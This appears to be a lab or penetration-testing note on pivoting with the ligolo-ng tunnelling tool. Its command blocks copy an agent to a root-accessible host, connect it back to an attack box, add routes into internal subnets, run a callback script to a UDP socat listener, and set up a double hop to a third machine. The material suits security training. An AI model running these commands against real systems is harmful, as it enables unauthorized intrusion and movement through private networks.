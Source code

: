 #### Call back in with client

```
[[ Ligolo~Client ]]*
cd tools/ligolo-ng
scp agent root@lamp:
ssh root@lamp 'chmod +x agent'
ssh root@lamp './agent -connect <ATTACK_BOX_IP>:11601 -accept-fingerprint <FINGERPRINT_FROM_THE_SERVER>'
```

### Tun interface

#### Add route

```
[[ Ligolo~Server ]]
session
1
route_add --name ligolo --route 10.X.22.0/24
start
```

#### Call me

Notice in this iteration we use a udp listener instead of tcp.  Originally I tried a tcp listener, but my callback connection would timeout.  I am not sure why, but I only saw this with ligolo.

```
[[ Ligolo~Callme ]]*
lsof -i udp:4444
	socat -u udp-listen:4444,reuseaddr,fork open:/tmp/PROOF,create,append &
cat /tmp/PROOF
callMe.sh linux 80 <ATTACK_BOX_IP> 4444 udp
cat /tmp/PROOF
```

### Double hop

Using our existing agent, let's grab another one to access a third machine

#### Create route

```
[[ Ligolo~Server ]]
route_add --name ligolo --route 10.X.20.221/32

```
#### Start listener

```
[[ Ligolo~Server ]]
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601
	#Notice we use 11601 because this is the listener we started the ligolo server with
```
